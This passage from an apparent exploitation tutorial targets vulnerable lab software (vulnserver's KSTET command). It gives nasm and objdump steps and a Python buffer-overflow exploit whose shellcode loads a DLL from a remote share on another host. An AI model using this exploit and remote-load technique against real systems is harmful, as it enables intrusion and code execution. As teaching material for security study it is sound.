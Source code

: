 We can compile that using `nasm`:

``` console
nasm -f elf32 -o shellcode.o shellcode.asm
```

And obtain the shellcode using this:

``` bash
$ for i in $(objdump -d shellcode.o -M intel |grep "^ " |cut -f2); do echo -n '\x'$i; done; echo
\x83\xec\x64\x31\xdb\x53\x68\x2e\x64\x6c\x6c\x68\x6c\x6c\x30\x30\x68\x5c
\x73\x68\x65\x68\x31\x38\x5c\x73\x68\x38\x2e\x30\x2e\x68\x32\x2e\x31\x36
\x68\x5c\x5c\x31\x39\xbb\x30\x0b\x46\x76\xff\xd3
```

Let’s update our exploit with that:

``` python
import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

LOAD_LIBRARY = (
    b'\x83\xec\x64\x31\xdb\x53\x68\x2e\x64\x6c\x6c\x68\x5c\x70\x77\x6e'
    b'\x68\x31\x38\x5c\x58\x68\x38\x2e\x30\x2e\x68\x32\x2e\x31\x36\x68'
    b'\x5c\x5c\x31\x39\x54\xbb\x30\x0b\x46\x76\xff\xd3'
)

PAYLOAD = (
    b'KSTET ' +
    b'\x90' * 2 +
    LOAD_LIBRARY +
    b'A' * (70 - len(LOAD_LIBRARY) - 2) +
    # 625011BB    FFE4                        JMP ESP
    struct.pack('<L', 0x625011BB) +
    # JMP SHORT 0xb5
    b'\xeb\xb5' +
    b'C' * (26 - 2)
)

with socket.create_connection((HOST, PORT)) as fd:
    print('Sending payload...')
    fd.sendall(PAYLOAD)
    print('Done.')
```

And check it:

<div class="imgblock">

![LoadLibrary](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331197/blog/vulnserver-kstet-alternative/loadlib1_neogoa.gif)

</div>
